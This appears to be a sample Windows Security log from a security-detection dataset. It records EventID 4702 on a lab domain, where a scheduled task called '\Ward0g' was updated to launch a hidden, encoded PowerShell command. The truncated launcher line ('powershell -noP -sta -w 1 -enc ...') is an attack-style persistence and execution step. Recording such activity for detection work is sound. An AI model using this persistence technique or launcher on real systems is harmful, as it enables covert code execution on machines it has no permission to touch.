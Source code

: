 ### Security Log
* EventID 4624: Successful Logon

* EventID 4702 (Target): A Scheduled Task Was updated

```xml
- <Event xmlns="http://schemas.microsoft.com/win/2004/08/events/event"> 
    - <System> 
        <Provider Name="Microsoft-Windows-Security-Auditing" Guid="{54849625-5478-4994-a5ba-3e3b0328c30d}" /> 
        <EventID>4702</EventID> 
        <Version>1</Version> 
        <Level>0</Level> 
        <Task>12804</Task> 
        <Opcode>0</Opcode> 
        <Keywords>0x8020000000000000</Keywords> 
        <TimeCreated SystemTime="2020-12-16T17:12:22.000309100Z" /> 
        <EventRecordID>2292968</EventRecordID> 
        <Correlation ActivityID="{262c1204-cb81-0000-0dbf-29867cced601}" /> 
        <Execution ProcessID="740" ThreadID="1560" /> 
        <Channel>Security</Channel> 
        <Computer>WORKSTATION6.theshire.local</Computer> 
        <Security /> 
    </System> 
    - <EventData> 
        <Data Name="SubjectUserSid">S-1-5-21-3786818125-2382361537-3207726629-1104</Data> 
        <Data Name="SubjectUserName">pgustavo</Data> 
        <Data Name="SubjectDomainName">THESHIRE</Data> 
        <Data Name="SubjectLogonId">0x9ac216f</Data> 
        <Data Name="TaskName">\Ward0g</Data> 
        <Data Name="TaskContentNew"><?xml version="1.0" encoding="UTF-16"?> <Task version="1.2" xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task"> <RegistrationInfo> <Date>2020-12-16T08:09:21.4521839</Date> <Author>THESHIRE\sbeavers</Author> <Description>Que pasa</Description> <URI>\Ward0g</URI> </RegistrationInfo> <Triggers> <RegistrationTrigger> <Enabled>true</Enabled> </RegistrationTrigger> </Triggers> <Principals> <Principal id="Author"> <UserId>S-1-5-21-3786818125-2382361537-3207726629-1106</UserId> <LogonType>InteractiveToken</LogonType> <RunLevel>LeastPrivilege</RunLevel> </Principal> </Principals> <Settings> <MultipleInstancesPolicy>IgnoreNew</MultipleInstancesPolicy> <DisallowStartIfOnBatteries>true</DisallowStartIfOnBatteries> <StopIfGoingOnBatteries>true</StopIfGoingOnBatteries> <AllowHardTerminate>true</AllowHardTerminate> <StartWhenAvailable>false</StartWhenAvailable> <RunOnlyIfNetworkAvailable>false</RunOnlyIfNetworkAvailable> <IdleSettings> <StopOnIdleEnd>true</StopOnIdleEnd> <RestartOnIdle>false</RestartOnIdle> </IdleSettings> <AllowStartOnDemand>true</AllowStartOnDemand> <Enabled>true</Enabled> <Hidden>false</Hidden> <RunOnlyIfIdle>false</RunOnlyIfIdle> <WakeToRun>false</WakeToRun> <ExecutionTimeLimit>PT72H</ExecutionTimeLimit> <Priority>7</Priority> </Settings> <Actions Context="Author"> <Exec> <Command>powershell</Command> <Arguments>-noP -sta -w 1 -enc SQBGACgAJABQAFMAVgBFAFIAUwBpAE8ATgBUAGEAQgBMAGUALgBQAFMAVgBlAHIAUwBwAt.....</Data> 
        <Data Name="ClientProcessStartKey">0</Data> 
        <Data Name="ClientProcessId">0</Data> 
        <Data Name="ParentProcessId">0</Data> 
        <Data Name="RpcCallClientLocality">0</Data> 
        <Data Name="FQDN">WORKSTATION6.theshire.local</Data> 
    </EventData> 
</Event>
```
